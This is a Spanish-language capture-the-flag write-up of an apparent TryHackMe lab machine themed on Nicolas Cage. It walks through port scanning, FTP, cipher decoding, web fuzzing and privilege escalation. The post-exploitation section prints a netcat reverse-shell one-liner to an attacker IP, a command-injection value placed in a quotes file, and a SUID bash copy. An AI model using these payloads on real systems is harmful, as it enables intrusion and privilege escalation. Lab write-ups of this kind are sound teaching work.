

# <font color=red>[+]</font> Reconocimiento

```bash
sudo nmap -p- -sS -Pn -n --min-rate 5000 -vvv $IP

PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 62
22/tcp open  ssh     syn-ack ttl 62
80/tcp open  http    syn-ack ttl 62
```

```bash
sudo nmap -p 21,22,80 -sVC -Pn -n --min-rate 5000 -v -oN versiones $IP

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.131.254
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             396 May 25  2020 dad_tasks
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dd:fd:88:94:f8:c8:d1:1b:51:e3:7d:f8:1d:dd:82:3e (RSA)
|   256 3e:ba:38:63:2b:8d:1c:68:13:d5:05:ba:7a:ae:d9:3b (ECDSA)
|_  256 c0:a6:a3:64:44:1e:cf:47:5f:85:f6:1f:78:4c:59:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Nicholas Cage Stories
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
## <font color=red>[~]</font> FTP

El servicio ***FTP*** permite el acceso a recursos públicos a través de la cuenta `anonymous`. Dentro tan solo encontramos un único fichero denominado `dad_tasks`. Lo descargamos usando el comando `get dad_tasks`.

Este archivo contiene un mensaje codificado en `base 64`, por lo que podemos decodificarlo a través del siguiente comando:
```bash
cat dad_tasks | base64 -d

Qapw Eekcl - Pvr RMKP...XZW VWUR... TTI XEF... LAA ZRGQRO!!!!
Sfw. Kajnmb xsi owuowge
Faz. Tml fkfr qgseik ag oqeibx
Eljwx. Xil bqi aiklbywqe
Rsfv. Zwel vvm imel sumebt lqwdsfk
Yejr. Tqenl Vsw svnt "urqsjetpwbn einyjamu" wf.

Iz glww A ykftef.... Qjhsvbouuoexcmvwkwwatfllxughhbbcmydizwlkbsidiuscwl
```

Al ver el mensaje pensé en que podría ser algún tipo de cifrado César, y como el más común es el ***Rot 13***, traté de descifrarlo:
```bash
cat dads_tasks | base64 -d | tr 'A-Za-z' 'N-ZA-Mn-za-m'
```

Pero no obtuve un resultado satisfactorio, por lo que para comprobar que no fuera algún otro tipo de cifrado César por posición, usé la web de ***[CybeChefs](https://gchq.github.io/CyberChef/)***. Pero no conseguí descifrar el mensaje, por lo que supuse que tal vez sería algún cifrado como el ***Vigènere*** y decidí seguir investigando para tratar de encontrar la clave de descifrado.
## <font color=red>[~]</font> Entorno Web

Al acceder a la web nos encontramos con una página dedicada al actor *Nicolas Cage*. En el código fuente no encontramos nada más allá de un directorio `images`. Como no es posible conocer más información comenzamos la etapa de reconocimiento activo del entrono web.

```bash
ffuf -c -w <(tail -n+15 /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt) -u http://$(cat ip)/FUZZ -fc 404

images                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 32ms]
html                    [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 32ms]
scripts                 [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 32ms]
contracts               [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 32ms]
auditions               [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 32ms]
```

- El directorio `html` está vacío.
- Dentro de la carpeta `scripts` encontramos varios archivos de texto que parecen contener historias que podrían darnos información.
- El directorio `contracts` contiene un fichero denominado `FolderNotInUse`.
- El directorio `auditions` contiene un archivo ***.mp3*** supuestamente dañado.

En lo primero que pienso es que tal vez el supuesto archivo ***MP3*** en realidad sea un archivo de texto, por lo que lo descargo y ejecuto la herramienta `file` con la que me aseguro de que el archivo realmente es un archivo de audio ***.mp3***.

Tras esto, escuché el audio y realmente se escucha ruido durante un fragmento. Por lo que decido usar un ***espectrograma*** para verificar si hay algún tipo de mensaje oculto.

### Espectrograma🎧

>[!Note]
>Un ***espectrograma*** es una representación visual de las frecuencias de una señal (normalmente sonido) a lo largo del tiempo.

En términos sencillos, es un gráfico en tres dimensiones que nos muestra:
- ***Eje horizontal (X):*** El tiempo (el avance del audio).
- ***Eje vertical (Y):*** La frecuencia (si el sonido es grave o agudo).
- ***Color / Intensidad:*** La potencia o volumen de esa frecuencia en ese instante.

En ciberseguridad se usa porque permite "dibujar" imágenes o texto oculto dentro del ruido de un archivo de audio, algo que el oído humano no puede detectar pero el gráfico sí revela.

Cuando usamos un espectrograma (yo use el de ***[academo.org](https://academo.org/demos/spectrum-analyzer/)***), observamos que aparece un código.



>Para no estropear la experiencia no mostraré el código, pero como ayuda os diré que a mi me ayudó bastante mirarlo desde algo de distancia.

Cuando vi el código, se me vino a la mente el texto cifrado en ***Vigènere*** que teníamos de antes y volví a usar ***[CyberChefs](https://gchq.github.io/CyberChef/)*** para descifrarlo, dándonos como resultado el siguiente mensaje:

```
Dads Tasks - The RAGE...THE CAGE... THE MAN... THE LEGEND!!!!
One. Revamp the website
Two. Put more quotes in script
Three. Buy bee pesticide
Four. Help him with acting lessons
Five. Teach Dad what "information security" is.

In case I forget.... [hidden]
```

Tuve que volver a la página del CTF en TryHackMe para descubrir que la contraseña pertenecía al usuario `weston`. No se si habría otra forma de descubrir el usuario, pero estuve buscando por las historias del directorio web `scripts` y no encontré el nombre de ***Weston***.

# <font color=red>[+]</font> Post-Explotación

## <font color=red>[~]</font> weston

Una vez obtenemos acceso a la máquina víctima como el usuario `weston` empezamos a buscar formas de escalar privilegios. Tras ver que no hay nada en el directorio `/home/weston`, ejecuto el comando `sudo -l` para ver que binarios tengo permisos de ejecutar con privilegios que no son de mi usuario, y veo que puedo ejecutar como `root` el ejecutable `/usr/bin/bees`.

Al leer el contenido del ejecutable, veo que se trata de un Shell Script escrito en bash.
```bash
#!/bin/bash

wall "AHHHHHHH THEEEEE BEEEEESSSS!!!!!!!!"

# Cuyos permisos son estos

-rwxr-xr-x 1 root root 56 May 25  2020 /usr/bin/bees
```

Tenemos permiso para leer y ejecutar el contenido, pero no para modificarlo, por lo que no podemos obtener acceso a  `root` a través de este ejecutable.

Al ejecutar el comando `id`, observo que el usuario `weston` pertenece al grupo `cage`, por lo que busco los archivos con este grupo para ver si encuentro más información. 

```bash
find / -type f -group "cage" 2>/dev/null

/opt/.dads_scripts/spread_the_quotes.py
/opt/.dads_scripts/.files/.quotes
<snip>
```

El script `spread_the_quotes.py` contiene un código que lee el contenido del archivo `/opt/.dads_tasks/.files/.quotes`, elige una línea al azar y ejecuta el comando del sistema `wall` con la cita elegida.

```Python
#!/usr/bin/env python

#Copyright Weston 2k20 (Dad couldnt write this with all the time in the world!)
import os
import random

lines = open("/opt/.dads_scripts/.files/.quotes").read().splitlines()
quote = random.choice(lines)
os.system("wall " + quote)
```

Este código es vulnerable a la inyección de comandos ya que llama a la función `os.system` sin sanitizar la entrada.

Como tenemos permiso de escritura en el directorio `.files`, podemos renombrar el archivo original `.quotes` a `.quote.bask`, para crear un nuevo fichero `.quotes` que contenga una sola línea que concatene más comandos para realizar la inyección de código.

Estuve tratando de obtener acceso al nuevo usuario de forma directa a través de comandos como `/bin/bash -p` o `chmod +s /bin/bash`, pero sin éxito. La explicación está al final del *Write Up* en la sección ***Explicaciones***. aun así, obtuve acceso de dos formas distintas:

1. Podemos hacer uso de los ***FIFO*** del sistema operativo para crear una ***reverse Shell*** a nuestra máquina usando `netcat`.
   
   ```bash
   # Nos aseguramos de que no existe ningún archivo en /tmp/rev
   rm -f /tmp/rev
   
   # Cargamos el payload dentro de este archivo /tmp/rev
   cat << EOF > /tmp/rev
   #!/bin/bash
   rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP_KALI 5555 >/tmp/f
   EOF
   
   # Modificamos los permisos del archivo para que pueda ejecutarse
   chmod 777 /tmp/rev
   
   # Hacemos que el script spread_the_quotes.py ejecute el archivo /tmp/rev
   echo "Shell ; /tmp/rev" > /opt/.dads_tasks/.files/.quotes
   
   # Preparamos el listeenr en nuestra máquina atacante
   nc -lvnp 5555
   ```
   
   De esta forma, cuando se ejecute el script `spread_the_quotes.py`, ejecutará el comando `wall Shell ; /tmp/rev`, el cual muestra en la pantalla el mensaje `Shell` debido a la herramienta `wall` y ejecuta el código en `/tmp/rev`.

1. Podemos crear un nuevo binario ***bash*** con el bit SUID activo del usuario con el que se ejecuta el script `spread_the_quotes.py`.
   ```bash
   echo "Shell ; cp /bin/bash /tmp/bash ; chmod +sx /tmp/bash"
   ```
   
   Así, cuando se ejecute el script `spread_the_quotes.py`, creará una copia del binario `/bin/bash` y le activará el bit SUID. Para ejecutarlo y ganar acceso a una shell con sus permisos, debemos ejecutar el comando:
   ```bash
   /tmp/bash -p    # La opción -p permite que funcione el bit SUID
   ```

## <font color=red>[~]</font> cage

Al acceder a la shell con los permisos del usuario `cage`, podemos ver que en su directorio `home` se encuentra un subdirectorio llamado `email_backup`, en el cual encontramos 3 emails.

En el segundo email se nos muestra que el tal Sean es el administrador y que por tanto tiene acceso al usuario `root`. Y en el tercer email se nos muestra un código cifrado.

Dicho código pienso que parece ser algún cifrado César y prueba los distintos desplazamientos para ver si consigo algo que parezca funcionar. Al no tener éxito. vuelvo a pensar el en cifrado ***Vigènere*** y pruebo si funciona la misma clave que la vez anterior sin éxito de nuevo.

Mirando mejor el email, veo hay una palabra que se muestra varias veces y con mayúsculas, como si el creador del CTF quisiera que nos fijáramos en ella. Por lo que la uso como clave y obtenga la contraseña del usuario `root`.
